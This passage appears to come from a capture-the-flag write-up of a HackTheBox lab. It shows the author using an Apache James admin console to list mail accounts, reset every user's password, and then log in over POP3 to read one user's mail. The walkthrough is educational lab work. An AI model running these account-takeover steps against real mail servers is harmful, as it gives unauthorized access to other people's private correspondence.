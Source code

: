 ```bash
setforwarding [username] [emailaddress] forwards a user's email to another email address
showforwarding [username]               shows a user's current email forwarding
unsetforwarding [username]              removes a forward
user [repositoryname]                   change to another user repository
shutdown                                kills the current JVM (convenient when James is run as a daemon)
quit                                    close connection
```

Among the available commands, I chose `listusers` first to see existing users.
List users:

```makefile
listusers 
Existing accounts 5
user: james
user: thomas
user: john
user: mindy
user: mailadmin
```

Then, I changed all non-root user's passwords.
Change all users' password:

```
setpassword james bokchee
Password for james reset
setpassword thomas bokchee
Password for thomas reset
setpassword john bokchee
Password for john reset
setpassword mindy bokchee
Password for mindy reset
setpassword mailadmin bokchee
Password for mailadmin reset
```

Then, let's connect to POP3 service to check all accounts.
I found stored mails from several users : `john`, `mindy`

Read `john`'s mail : 

```bash
┌──(kali㉿kali)-[~/htb/exploits]
└─$ telnet 10.10.10.51 110
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready 
USER john
+OK
PASS bokchee
+OK Welcome john
list
+OK 1 743
1 743
.
retr 1
+OK Message follows
Return-Path: <mailadmin@localhost>
Message-ID: <9564574.1.1503422198108.JavaMail.root@solidstate>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: john@localhost
Received: from 192.168.11.142 ([192.168.11.142])
```